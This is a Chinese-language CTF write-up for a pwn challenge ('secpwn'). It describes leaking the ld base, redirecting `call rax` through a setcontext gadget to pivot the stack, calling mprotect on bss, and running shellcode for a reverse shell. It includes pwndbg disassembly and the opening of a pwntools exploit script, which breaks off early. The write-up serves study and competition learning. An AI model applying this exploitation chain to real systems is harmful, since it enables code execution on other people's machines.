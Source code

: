 所以我们向`0x7fb17da2a190+0xa8`的地址写入`bss`的地址，那调用`call rax`的时候我们就会有一次执行`gadget`的机会

所以我们要先泄露`ld`的位置，这里要说一下，好像本地的`ld`和`libc`的地址偏移是固定的，但是远程是不固定的，所以还是要用程序的`write`函数泄露一下

`libc`里的`libc.symbols['_rtld_global']`会有`ld`的地址

然后调用`call rax`的时候刚好`rdi`指向`bss`，配合`setcontext`和前面的`bss_overflow`就可以控制程序的流程了

一开始我我觉得后面都是`mov    rsp,QWORD PTR [rdx+0xa0]`,是从`rdx`这里读取的，好像不能用。

但是`setcontext`一开始有`push rdi`,然后又有`pop rdx`,这样的话`rdx = rdi`,简直`nice`，注意下绕过`fldenv[rcx]`,给个可读的地址就好了

```c
pwndbg> x/20i setcontext
   0x7fb17d850e00 <setcontext>:	push   rdi
   0x7fb17d850e01 <setcontext+1>:	lea    rsi,[rdi+0x128]
   0x7fb17d850e08 <setcontext+8>:	xor    edx,edx
   0x7fb17d850e0a <setcontext+10>:	mov    edi,0x2
   0x7fb17d850e0f <setcontext+15>:	mov    r10d,0x8
   0x7fb17d850e15 <setcontext+21>:	mov    eax,0xe
   0x7fb17d850e1a <setcontext+26>:	syscall 
   0x7fb17d850e1c <setcontext+28>:	pop    rdx
   0x7fb17d850e1d <setcontext+29>:	cmp    rax,0xfffffffffffff001
   0x7fb17d850e23 <setcontext+35>:	jae    0x7fb17d850e80 <setcontext+128>
   0x7fb17d850e25 <setcontext+37>:	mov    rcx,QWORD PTR [rdx+0xe0]
   0x7fb17d850e2c <setcontext+44>:	fldenv [rcx]
   0x7fb17d850e2e <setcontext+46>:	ldmxcsr DWORD PTR [rdx+0x1c0]
   0x7fb17d850e35 <setcontext+53>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x7fb17d850e3c <setcontext+60>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x7fb17d850e43 <setcontext+67>:	mov    rbp,QWORD PTR [rdx+0x78]

```



那后面就没啥好说的了，劫持程序流程，先`mprotect`让`bss`可执行，最后跳转到`bss`用`shellcode`反弹`shell`出来



最终exp为：



```python
from pwn import *

context.arch = 'amd64'

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil(">\n")
	p.sendline(str(command))

def main(host,port=2333):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./secpwn")
		gdb.attach(p,"b mprotect")
		# p = process("./secpwn_bak",env={"LD_PRELOAD":"./libc.so.6"})
		# debug(0x000000000001577)
	cmd(5)
	
	p.recvuntil("fmt:\n")
```